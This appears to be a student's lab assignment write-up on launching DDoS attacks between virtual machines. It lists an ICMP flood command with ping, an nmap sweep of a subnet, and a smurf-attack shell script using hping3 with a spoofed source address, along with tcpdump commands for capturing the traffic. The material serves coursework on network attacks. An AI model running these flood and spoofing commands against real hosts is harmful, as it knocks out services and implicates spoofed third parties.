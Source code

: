 # PCS Assignment 2: Launching of DDoS attacks using network protocols ICMP, UDP, TCP, and HTTP.

Bhargavi Poyekar: CH33454

## 1. Commands Invoked:

### A. ICMP Flood Attack:

Attacker VM 
        
    => time sudo ping -f -c 100000 133.228.86.3

* ping is used to check if the machine is active or available. 
* time command is used to calculate the time for the command to run. 
* -f is flood ping, makes the packet sending faster with very less interval. 
* -c is count of the number of packets to be sent.


Target VM 
        
    => sudo tcpdump -n -i ens192 -s0 -w icmpflood.pcap host 133.228.86.1 and icmp

* -n is used to tell that addresses are not to be converted to names.
* -i is for mentioning the interface
* -w tells to capture the packet in the given pcap file 
* host tells to capture the packets coming from that machine 
* icmp tells to capture only the icmp packets


Target VM 
    
    => tcpdump -n -r icmpflood.pcap | grep "echo request"|wc-l

* -r is used to read the captured pcap file. 
* grep is used to match patterns. 
* wc gets the line count

### C. ICMP smurf attack:

Attacker VM:

=>

    nmap -sn -T4 133.228.64.0/18

* nmap is used to scan the network and determine the available hosts in the network. 
* -sn is ping scan, which tells not to discover any ports
of the host, just check for available hosts. 
* T4 determines the speed for the scanning, 4 is an aggressive level.
    
=>
    
    nano smurfattack.sh

* sudo hping3 -1 -q -c 10 -a 133.228.86.3 133.228.72.1 (10 times with different machines)
* nano is the editor that I used.
* In the shell script smurfattack.sh, the above command is repeated 10 times, with different addresses.
* hping3 allows to send custom packets. 
* -1 stands for icmp protocol. 
* -q keeps the ouput quiet and very less is displayed in
the output. 
* -c tells the count of packets to be sent. 
* -a stands for spoofed source address.
